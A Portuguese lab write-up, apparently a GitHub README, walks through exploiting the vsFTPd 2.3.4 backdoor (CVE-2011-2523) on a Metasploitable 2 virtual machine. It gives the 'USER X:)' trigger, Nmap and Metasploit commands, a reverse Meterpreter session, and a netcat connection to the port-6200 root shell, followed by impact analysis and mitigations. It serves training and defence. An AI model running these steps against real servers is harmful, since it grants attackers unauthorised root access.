






# 🛡️ Metasploitable 2 — vsFTPd 2.3.4 Backdoor

> Laboratório prático de investigação, validação e exploração da vulnerabilidade **CVE-2011-2523**, associada à backdoor presente em uma distribuição comprometida do vsFTPd 2.3.4.

## 📌 1. Visão geral

Este laboratório documenta a investigação da backdoor associada ao serviço FTP vsFTPd 2.3.4, desde o reconhecimento inicial até a confirmação de execução remota de comandos com privilégios de `root`.

O objetivo foi compreender o mecanismo da vulnerabilidade, analisar os métodos de detecção do Nmap e explorar a falha utilizando duas abordagens: Metasploit Framework e exploração manual com FTP e Netcat.

A atividade foi conduzida exclusivamente em um ambiente virtualizado e isolado.

### 🎯 Objetivos

- Identificar e enumerar o serviço FTP.
- Investigar o contexto técnico da CVE-2011-2523.
- Analisar o script NSE de detecção do Nmap.
- Validar a presença da backdoor.
- Investigar o mecanismo de ativação pelo protocolo FTP.
- Explorar a vulnerabilidade com Metasploit Framework.
- Reproduzir manualmente a exploração utilizando FTP e Netcat.
- Confirmar a execução de comandos e o nível de privilégio obtido.
- Avaliar impactos e medidas de mitigação.

### 🔎 Vulnerabilidade

| Informação | Resultado |
|---|---|
| Vulnerabilidade | vsFTPd 2.3.4 Backdoor |
| CVE | CVE-2011-2523 |
| Serviço | FTP |
| Porta de entrada | TCP/21 |
| Porta do Bind Shell | TCP/6200 |
| Tipo | Backdoor / Remote Code Execution |
| Privilégio confirmado | `root` (UID 0) |

**Nota sobre o escopo:** a CVE-2011-2523 está associada à distribuição comprometida do vsFTPd 2.3.4 disponibilizada entre 30 de junho e 3 de julho de 2011. Isso não significa que toda instalação da versão 2.3.4 esteja necessariamente vulnerável.

---

## 🖥️ 2. Ambiente de laboratório

Os testes foram realizados em duas máquinas virtuais conectadas por uma rede isolada.

| Máquina | Sistema | Endereço IP |
|---|---|---|
| Atacante | Kali Linux | `192.168.100.20` |
| Alvo | Metasploitable 2 | `192.168.100.10` |

**Interface de rede do alvo:**

| Campo | Valor |
|---|---|
| Interface | `eth0` |
| IPv4 | `192.168.100.10/24` |
| MAC | `52:54:00:85:3a:6a` |

### 🧰 Ferramentas utilizadas

- Kali Linux
- Metasploitable 2
- Nmap
- Metasploit Framework
- Netcat
- Cliente FTP

---

## 🔍 3. Reconhecimento e enumeração

O reconhecimento inicial foi realizado com Nmap. Entre os serviços identificados, a investigação foi direcionada ao FTP na porta TCP/21.

**Resultado observado:**

```text
21/tcp open ftp vsftpd 2.3.4
```

O banner identificou o serviço como vsFTPd 2.3.4. Essa informação motivou a investigação da CVE-2011-2523, mas não foi considerada prova suficiente da presença da backdoor.

### 🔐 Análise do serviço FTP

Foi realizada uma conexão manual:

```bash
ftp 192.168.100.10
```

O servidor respondeu:

```text
220 (vsFTPd 2.3.4)
```

Foram observados os seguintes comportamentos:

- Uma tentativa com usuário inexistente foi rejeitada (`530 Login incorrect`).
- A autenticação anônima foi aceita (`230 Login successful`).
- O diretório remoto apresentado foi `/`.
- A listagem FTP apresentou somente `.` e `..`.
- Não foi comprovada permissão de escrita para o usuário anônimo.
- O comando `system` retornou `215 UNIX Type: L8`.

A comunicação FTP tradicional também não utilizava criptografia, permitindo a transmissão de comandos de autenticação em texto claro.

### 📸 Evidência — Reconhecimento e validação



---

## 📚 4. Investigação da CVE-2011-2523

A pesquisa identificou a CVE-2011-2523, associada a uma distribuição comprometida do vsFTPd 2.3.4 em 2011.

A backdoor permite acionar um mecanismo de execução remota de comandos por meio de uma sequência especial enviada ao serviço FTP.

**Referências:**
- [CVE-2011-2523 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- [Exploit-DB — 49757](https://www.exploit-db.com/exploits/49757)

> A vulnerabilidade não deve ser atribuída automaticamente a toda instalação do vsFTPd 2.3.4. É necessário validar a presença do comportamento comprometido.

### 🧪 Análise do script NSE

Foi analisado o script:

```text
ftp-vsftpd-backdoor.nse
```

Trecho relevante:

```lua
local CMD_FTP = "USER X:)\r\nPASS X\r\n"
local CMD_SHELL_ID = "id"
```

A sequência especial `USER X:)` é utilizada para acionar a backdoor. O nome de usuário termina com `:)`, que funciona como gatilho para o mecanismo malicioso.

Após o acionamento, o mecanismo disponibiliza um shell na TCP/6200, permitindo a execução de comandos remotamente.

O script NSE do Nmap utiliza esse comportamento para testar a vulnerabilidade. Por padrão, envia o comando `id` ao shell para identificar a identidade do processo.

Durante a análise, também foram estudados os delimitadores utilizados na comunicação:

| Sequência | Significado |
|---|---|
| `\r` | Carriage Return |
| `\n` | Line Feed |
| `\r\n` | Delimitador de linha utilizado na comunicação FTP |

Essa análise permitiu compreender a lógica de detecção antes da execução do teste.

---

## 🚨 5. Validação com Nmap

Após a investigação do script NSE, foi executada a verificação específica:

```bash
nmap --script ftp-vsftpd-backdoor -p 21 192.168.100.10
```

**Resultado observado:**

```text
21/tcp open ftp

ftp-vsftpd-backdoor:

VULNERABLE:
vsFTPd version 2.3.4 backdoor

State: VULNERABLE (Exploitable)

IDs: CVE:CVE-2011-2523

Exploit results:
The backdoor was already triggered

Shell command: id
Results: uid=0(root) gid=0(root)
```

### 📊 Interpretação

O resultado indicou que o mecanismo da backdoor já havia sido acionado e que foi possível executar o comando `id`.

A saída:

```text
uid=0(root) gid=0(root)
```

confirmou a execução do comando com privilégios de `root`.

Também foi realizada uma verificação específica da TCP/6200:

```bash
sudo nmap -sV -p 6200 192.168.100.10
```

Na verificação posterior, a porta foi apresentada como `closed`.

Esse resultado representa o estado observado naquele instante. Como a TCP/6200 está relacionada ao listener disponibilizado pelo mecanismo da backdoor, sua disponibilidade deve ser analisada considerando o momento do acionamento e da conexão.

---

## 💥 6. Exploração com Metasploit Framework

Após a validação pelo Nmap, foi utilizado o módulo:

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

O Metasploit identificou o banner vsFTPd 2.3.4 e indicou que o alvo apresentava características compatíveis com a vulnerabilidade.

**Resultado observado:**

```text
Started reverse TCP handler on 192.168.100.20:4444

FTP banner hints its vulnerable:
220 (vsFTPd 2.3.4)

The target appears to be vulnerable.

Backdoor has been spawned!

Meterpreter session 1 opened
(192.168.100.20:4444 -> 192.168.100.10:54142)
```

A exploração estabeleceu uma sessão Meterpreter interativa entre a máquina atacante e o alvo.

### 🔬 Entendendo o fluxo da exploração

O funcionamento observado pode ser dividido em duas etapas:

1. **Acionamento da backdoor:** o módulo envia a sequência especial pelo serviço FTP, provocando a disponibilização do Bind Shell na TCP/6200 do alvo.
2. **Estabelecimento da sessão Meterpreter:** nesta execução, o payload utilizado pelo Metasploit estabeleceu uma conexão reversa com o handler configurado no Kali, na TCP/4444.

Portanto, a TCP/6200 corresponde ao serviço de shell disponibilizado pela backdoor, enquanto a TCP/4444 foi utilizada pelo handler para receber a conexão reversa do payload.

### 📸 Evidência — Exploração com Metasploit



### 🖥️ Identificação do sistema

Foi executado:

```text
meterpreter > sysinfo
```

Resultado:

```text
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

O alvo foi identificado como Ubuntu 8.04, arquitetura i686.



### 🌐 Verificação da rede

O comando utilizado foi:

```text
meterpreter > ipconfig
```

Foram identificados:

```text
Interface   : eth0
IPv4        : 192.168.100.10
Netmask     : 255.255.255.0
MAC         : 52:54:00:85:3a:6a
```



### 👑 Confirmação de privilégios

Para confirmar a identidade da sessão, foi executado:

```text
meterpreter > getuid
```

Resultado:

```text
Server username: root
```

Isso comprovou que a sessão Meterpreter estava operando com privilégios de `root`.



---

## 🔧 7. Exploração manual com FTP e Netcat

Além da exploração automatizada com Metasploit, foi realizada uma reprodução manual do mecanismo da backdoor.

O objetivo foi compreender o funcionamento do gatilho FTP e estabelecer uma conexão diretamente com o shell disponibilizado na TCP/6200, sem depender de uma sessão Meterpreter.

### 🔐 Acionamento pelo serviço FTP

Foi iniciada uma conexão com o serviço FTP do alvo:

```bash
ftp 192.168.100.10
```

Durante a autenticação, foi utilizado um nome de usuário terminado em `:)`.

O mecanismo malicioso identifica essa sequência no campo de usuário e aciona a abertura do Bind Shell.

**Observação:** o gatilho está relacionado ao nome de usuário especial, e não à utilização de uma senha incorreta. O envio do comando `PASS` faz parte da sequência do protocolo FTP utilizada no acionamento.

### 🌐 Conexão direta com Netcat

Após o acionamento, foi estabelecida uma conexão diretamente com a TCP/6200 do alvo:

```bash
nc -nv 192.168.100.10 6200
```

Essa conexão permitiu interagir diretamente com o shell disponibilizado pela backdoor.

Diferentemente da execução pelo Metasploit documentada anteriormente, aqui não foi necessário estabelecer um handler de conexão reversa. O Kali conectou-se diretamente ao listener aberto no Metasploitable 2.

### 👑 Validação dos privilégios

Foram executados comandos para identificar a identidade e os privilégios do processo:

```bash
id
```

Resultado observado:

```text
uid=0(root) gid=0(root)
```

Também foi executado:

```bash
whoami
```

Resultado:

```text
root
```

Por fim, foi realizada uma inspeção da estrutura de diretórios utilizando:

```bash
ls -a
```

Os resultados confirmaram que a conexão manual permitia executar comandos no sistema alvo com privilégios de `root`.

### 📸 Evidência — Exploração manual com FTP e Netcat



### 📊 Comparação entre os métodos de exploração

| Característica | Metasploit Framework | FTP + Netcat |
|---|---|---|
| Acionamento | Automatizado pelo módulo | Manual pelo serviço FTP |
| Gatilho FTP | Executado pelo módulo | Informado manualmente |
| Acesso inicial | Bind Shell na TCP/6200 | Bind Shell na TCP/6200 |
| Conexão observada | Meterpreter reverso para TCP/4444 | Conexão direta à TCP/6200 |
| Interação | Sessão Meterpreter | Shell de comandos |
| Privilégio confirmado | `root` | `root` |

As duas abordagens exploraram a mesma vulnerabilidade. A diferença está na forma de acionamento, estabelecimento da conexão e interação com o shell.

---

## 📉 8. Análise de impacto

A exploração demonstrou a possibilidade de execução remota de comandos sem autenticação FTP convencional, com privilégios administrativos.

O impacto potencial pode ser analisado pela tríade CIA:

| Dimensão | Impacto potencial |
|---|---|
| Confidencialidade | Acesso a arquivos, configurações e informações sensíveis. |
| Integridade | Modificação de arquivos, configurações e componentes do sistema. |
| Disponibilidade | Interrupção de serviços e comprometimento do servidor. |

O acesso privilegiado também pode permitir que um invasor investigue outros sistemas acessíveis pela rede, criando risco de movimentação lateral.

**Classificação no cenário testado:** crítica, devido à execução remota de comandos com privilégios de `root`.

---

## 🛡️ 9. Recomendações de mitigação

As principais medidas defensivas são:

1. Remover ou substituir a instalação comprometida por uma versão legítima e atualizada.
2. Desativar serviços FTP desnecessários.
3. Restringir o acesso ao serviço por firewall e segmentação de rede.
4. Preferir SFTP quando adequado à arquitetura.
5. Investigar possíveis sinais de comprometimento anterior.
6. Verificar contas, processos, arquivos e mecanismos de persistência.
7. Reconstruir o servidor a partir de uma imagem confiável quando houver comprometimento confirmado.
8. Monitorar conexões e atividades suspeitas.

> A atualização do software não garante, por si só, a remoção de um invasor que já tenha obtido acesso ao sistema.

---

## 🏁 10. Conclusão

O laboratório demonstrou o processo de investigação de uma vulnerabilidade desde o reconhecimento do serviço até a confirmação de seu impacto.

A identificação do vsFTPd 2.3.4 levou à investigação da CVE-2011-2523. A análise do script NSE permitiu compreender o mecanismo de detecção, e o Nmap identificou a execução do comando `id` com privilégios de `root`.

Posteriormente, a vulnerabilidade foi explorada por duas abordagens distintas:

- **Metasploit Framework:** acionamento automatizado da backdoor e estabelecimento de uma sessão Meterpreter por conexão reversa.
- **FTP e Netcat:** acionamento manual do mecanismo e conexão direta ao Bind Shell disponibilizado na TCP/6200.

Em ambas as abordagens, foi confirmado acesso remoto com privilégios de `root`.

### ✅ Resultados alcançados

- Serviço FTP identificado e enumerado.
- Contexto técnico da CVE-2011-2523 investigado.
- Script NSE do Nmap analisado.
- Vulnerabilidade validada no ambiente de laboratório.
- Execução remota do comando `id` confirmada pelo Nmap.
- Sessão Meterpreter estabelecida pelo Metasploit.
- Sistema operacional e configuração de rede identificados.
- Privilégios de `root` confirmados pelo Metasploit.
- Exploração manual realizada utilizando FTP e Netcat.
- Bind Shell acessado diretamente pela TCP/6200.
- Privilégios de `root` confirmados na exploração manual.

O exercício reforçou a importância do reconhecimento, da análise de código, da validação técnica e da compreensão dos mecanismos de exploração, indo além da simples utilização de ferramentas automatizadas.

---

## 📚 11. Referências técnicas

As fontes utilizadas durante a investigação estão organizadas em um documento separado:

📖 [Consultar referências técnicas — CVE-2011-2523](references/README.md)

---

- **Ambiente:** laboratório virtual isolado.
- **Status:** investigação concluída.
